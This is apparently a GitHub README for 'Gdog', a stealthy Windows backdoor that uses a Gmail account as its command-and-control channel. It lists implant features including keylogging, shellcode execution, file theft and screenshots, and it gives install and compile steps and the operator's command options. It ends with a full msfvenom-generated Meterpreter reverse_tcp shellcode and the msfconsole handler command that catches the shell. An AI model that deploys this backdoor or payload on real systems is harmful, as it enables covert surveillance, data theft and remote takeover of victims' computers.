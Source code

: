 Gdog
====
A stealthy Python based Windows backdoor that uses Gmail as a command and control server

This project was inspired by the gcat(https://github.com/byt3bl33d3r/gcat) from byt3bl33d3r.


Requirements
=====
* Python 2.x
* PyCrypto module
* WMI module
* Enum34 module
* Netifaces module


Features
=====
* Encrypted transportation messages (AES) + SHA256 hashing
* Generate computer unique id using system information/characteristics (SHA256 hash)
* Job IDs are random SHA256 hashes
* Retrieve system information
* Retrieve Geolocation information (City, Country, lat, long, etc..)
* Retrieve running processes/system services/system users/devices (hardware)
* Retrieve list of clients
* Execute system command
* Download files from client 
* Upload files to client
* Execute shellcode
* Take screenshot
* Lock client's screen 
* Keylogger
* Lock remote computer's screen
* Shutdown/Restart remote computer
* Log off current user
* Download file from the WEB
* Visit website
* Show message box to user
* Ability to change check-in time
* Ability to add jitter to check-in time to reduce predictability 


Setup
=====
For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account.
- You may also have to enable IMAP in the account settings.


Download/Installation
====
* https://sourceforge.net/projects/pywin32
* git clone https://github.com/maldevel/gdog
* pip install -r requirements.txt --user


Contents
=====
- ```gdog.py``` a script that's used to enumerate and issue commands to available clients
- ```client.py``` the actual backdoor to deploy

You're probably going to want to compile ```client.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)

**Note: It's recommended you compile client.py using a 32bit Python installation**


Usage
=====
```
                      __
           ____ _____/ /___  ____ _
          / __ `/ __  / __ \/ __ `/
         / /_/ / /_/ / /_/ / /_/ /
         \__, /\__,_/\____/\__, /
        /____/            /____/

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD                Execute a system command
  -visitwebsite URL       Visit website
  -message TEXT TITLE     Show message to user
  -tasks                  Retrieve running processes
  -services               Retrieve system services
  -users                  Retrieve system users
  -devices                Retrieve devices(Hardware)
  -download PATH          Download a file from a clients system
  -download-fromurl URL
                          Download a file from the web
  -upload SRC DST         Upload a file to the clients system
  -exec-shellcode FILE    Execute supplied shellcode on a client
  -screenshot             Take a screenshot
  -lock-screen            Lock the clients screen
  -shutdown               Shutdown remote computer
  -restart                Restart remote computer
  -logoff                 Log off current remote user
  -force-checkin          Force a check in
  -start-keylogger        Start keylogger
  -stop-keylogger         Stop keylogger
  -email-checkin seconds  Seconds to wait before checking for new commands  
  -jitter percentage      Percentage of Jitter
```


Shellcode Exec
=====

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform Windows EXITFUNC=thread LPORT=4444 LHOST=172.16.153.1 -f python

No encoder or badchars specified, outputting raw payload
Payload size: 354 bytes
buf =  ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0\xb7"
buf += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += "\xff\xd5\x6a\x05\x68\xac\x10\x99\x01\x68\x02\x00\x11"
buf += "\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
buf += "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
buf += "\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec"
buf += "\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02"
buf += "\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a"
buf += "\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53"
buf += "\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
buf += "\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40"
buf += "\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57"
buf += "\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9"
buf += "\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xe0"
buf += "\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
buf += "\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00"
buf += "\x53\xff\xd5"
```

Get rid of everything except for the shellcode and stick it in a file:

```
$ cat shell.txt 
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\xac\x10\x99\x01\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5
```
run the console

```
 ./msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 172.16.153.1; run"
 ```
